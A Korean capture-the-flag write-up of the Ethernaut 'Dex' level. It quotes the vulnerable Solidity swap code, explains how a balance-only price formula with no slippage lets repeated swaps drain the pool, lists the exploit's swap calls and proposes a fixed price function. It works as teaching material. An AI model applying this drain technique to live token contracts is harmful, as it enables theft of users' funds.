

# [Ethernaut] 22-dex

## 취약점 요약
- 이번 문제의 취약점은 스왑 할 때, 가격 산정 로직이 컨트랙트 잔고만 참조 한다는게 문제!  
정상적인 로직이였다면 슬리피지에 따라 가격이 쉽게 움직이지 않도록 설계가 되었어야 했지만,  
해당 문제는 그렇지 않기 때문에 문제에서 주어진 적은 양의 token을 가지고서  
컨트랙트의에서 많은 token을 가져올 수 있었습니다.  


## 취약 코드
```solidity
function getSwapPrice(address from, address to, uint256 amount) public view returns (uint256) {         
        // 첫 번째 취약점! 가격 산정을 오로지 컨트랙트 잔고에만 의존하고 있음
    return ((amount * IERC20(to).balanceOf(address(this))) / IERC20(from).balanceOf(address(this)));
}

function swap(address from, address to, uint256 amount) public {
        // 두 번째 취약점! setAmount가 컨트랙트가 실제로 보유한 to token 잔고를 초과할 수 있는지 확인하는 로직 부재
    require((from == token1 && to == token2) || (from == token2 && to == token1), "Invalid tokens");
    require(IERC20(from).balanceOf(msg.sender) >= amount, "Not enough to swap");
    uint256 swapAmount = getSwapPrice(from, to, amount);
    IERC20(from).transferFrom(msg.sender, address(this), amount);
    IERC20(to).approve(address(this), swapAmount);
    IERC20(to).transferFrom(address(this), msg.sender, swapAmount);
}
```

## 원인 분석
### **가격 산정 로직이 컨트랙트 잔고에만 의존!**  
- 정상적인 AMM은 **x * y = k** 와 같이 cpf를 유지하도록 설계 되어  
스왑 수량이 커질수록 슬리피지도 함 커지며 가격 비율이 급격하게 변하지 않도록 설계합니다.  

- 이 문제의 **getSwapPrice** 함수는 from 인자를 분모로 가지는데  
from + amount가 아닌 from의 값을 그대로 사용하기 때문에   
스왑 직전 시점의 고정 비율을 그대로 적용하고 있습니다.  
따라서 슬리피지가 0에 가까워 지기 때문에 스왑을 반복하기만 해도 비율을 왜곡시킬 수 있습니다.  

### **swap 결과값(swaoAmount)의 상한 검증 부재!**  
- **getSwapPrice** 함수를 사용하여 계산 된 값인 **swapAmount**가  
컨트랙트에서 실제로 보유한 to 토큰 잔고보다 큰지 확인하는 로직이 없습니다.  
ERC20 표준 구현상 초과 시 자동으로 revert 되는 기능이 있지만,  
컨트랙트 잔고를 정확히 소진시키는 amount를 역산해서 넣는다면 전액 drain이 가능하게 됩니다.  

### **최소 유동성 제약의 부재**   
실제 DEX 컨트랙트에서는 풀이 완전히 고갈되지 않도록 최소 유동성을 걸어놓지만,  
해당 문제의 컨트랙트는 이와 같은 제약을 걸어 놓지 않았기에 컨트랙트 풀을 완전 고갈 시킬 수 있었습니다.

## 익스플로잇 로직
```javascript
await contract.approve(contract.address, 1000)
await contract.swap(await contract.token1(), await contract.token2(), 10)
await contract.swap(await contract.token2(), await contract.token1(), 20)
await contract.swap(await contract.token1(), await contract.token2(), 24)
await contract.swap(await contract.token2(), await contract.token1(), 30)
await contract.swap(await contract.token1(), await contract.token2(), 41)
await contract.swap(await contract.token2(), await contract.token1(), 45)
```
**flag!**


## 수정 방안
```solidity
function getSwapPrice(address from, address to, uint256 amount) public view returns (uint256) {
    uint256 fromBalance = IERC20(from).balanceOf(address(this));
    uint256 toBalance = IERC20(to).balanceOf(address(this));
    require(fromBalance > 0 && toBalance > 0, "No liquidity");
        // 분모에 amount를 포함시켜 슬리피지 반영
    uint256 result = (amount * toBalance) / (fromBalance + amount);
        // swap 결과 값에 대한 상한 검증을 추가
    require(result <= toBalance, "Insufficient liquidity");
    return result;
}
```

## CWE 분류
- CWE-682 (Incorrect Calculation)
